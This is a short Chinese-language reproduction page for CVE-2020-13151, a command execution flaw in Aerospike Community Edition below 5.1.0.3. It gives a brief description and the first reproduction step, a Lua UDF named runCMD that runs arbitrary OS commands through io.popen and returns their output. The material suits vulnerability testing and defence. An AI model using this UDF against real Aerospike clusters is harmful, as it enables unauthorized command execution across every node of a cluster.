 <h1>（CVE-2020-13151）Aerospike 数据库主机命令执行漏洞</h1>
<h2>一、漏洞简介</h2>
<p>攻击者借助特制的UDF利用该漏洞以当前用户权限在该集群的所有节点上执行任意的操作系统命令。</p>
<h2>二、漏洞影响</h2>
<p>Aerospike 社区版 <5.1.0.3</p>
<h2>三、复现过程</h2>
<p>首先导入CVE-2020-13151.lua</p>
<pre><code>function runCMD(rec, cmd)
    local outtext = ""
    local phandle = io.popen(cmd)
    io.input(phandle)
    local foo = io.lines()
    for f in foo do
        outtext = outtext .. f .. "\n"
    end
    return outtext
end</pre></code>
